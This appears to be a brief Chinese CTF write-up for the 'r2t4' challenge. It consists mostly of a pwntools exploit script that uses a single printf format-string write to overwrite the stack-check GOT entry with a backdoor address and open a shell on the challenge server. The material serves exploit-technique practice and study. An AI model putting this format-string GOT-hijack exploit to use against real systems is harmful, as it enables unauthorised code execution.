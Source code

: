 考点：单次 printf 的利用，hjack GOT

```python
from pwn import *
from sys import argv

proc = "./r2t4"
context.log_level = "debug"
context.binary = proc
elf = ELF(proc, checksec=False)
io = remote("node5.buuoj.cn", 26592) if argv[1] == 'r' else process(proc)

if args.G:
    gdb.attach(io)

backdoor_addr = 0x400626
canary_chk_addr = 0x601018
payload = fmtstr_payload(6, {canary_chk_addr: backdoor_addr}, 0, 'byte')
payload += (40 - len(payload)) * b'a' + b'bbbbbbbb' + p64(0xdeadbeef)
io.sendline(payload)
io.interactive()
```

题目只允许使用一次 printf，这是个很有意思的点，简单总结一下可能的利用方式，即[[单次 printf 利用]]。

